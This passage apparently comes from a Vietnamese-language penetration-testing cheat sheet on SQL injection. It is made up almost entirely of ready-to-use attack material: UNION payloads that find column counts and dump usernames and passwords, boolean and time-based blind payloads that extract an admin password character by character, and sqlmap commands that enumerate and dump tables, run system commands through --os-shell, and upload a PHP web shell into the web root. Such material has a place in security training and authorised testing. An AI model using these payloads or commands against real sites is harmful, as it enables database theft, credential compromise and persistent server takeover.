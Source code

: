 ```
# Xác định số cột
' UNION SELECT NULL --
' UNION SELECT NULL,NULL --
' UNION SELECT NULL,NULL,NULL --

# Trích xuất dữ liệu khi đã biết số cột (ví dụ 3 cột)
' UNION SELECT database(),user(),version() --
' UNION SELECT table_name,2,3 FROM information_schema.tables --
' UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name='users' --
' UNION SELECT username,password,3 FROM users --
```

#### Blind SQL Injection:

```
# Boolean-based
' AND (SELECT 'x' FROM users LIMIT 1)='x' --
' AND (SELECT 'x' FROM users WHERE username='admin')='x' --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>70 --

# Time-based
' AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>70, SLEEP(5), 0) --
```

### 3.1.2. SQLMap Techniques

SQLMap là công cụ tự động hóa mạnh mẽ cho việc phát hiện và khai thác lỗ hổng SQL Injection.

```bash
# Kiểm tra cơ bản với tham số GET
sqlmap -u "http://target.com/page.php?id=1"

# Kiểm tra tất cả tham số
sqlmap -u "http://target.com/page.php?id=1&user=admin" --forms --batch

# Kiểm tra với dữ liệu POST
sqlmap -u "http://target.com/login.php" --data "username=admin&password=test"

# Kiểm tra với cookie
sqlmap -u "http://target.com" --cookie "PHPSESSID=1234567890abcdef"

# Trích xuất cơ sở dữ liệu
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --columns
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users -C username,password --dump

# Thực thi lệnh hệ thống (cần đủ quyền)
sqlmap -u "http://target.com/page.php?id=1" --os-shell
sqlmap -u "http://target.com/page.php?id=1" --os-cmd="whoami"

# Tạo và upload web shell
sqlmap -u "http://target.com/page.php?id=1" --file-write=/path/to/local/shell.php --file-dest=/var/www/html/shell.php
```
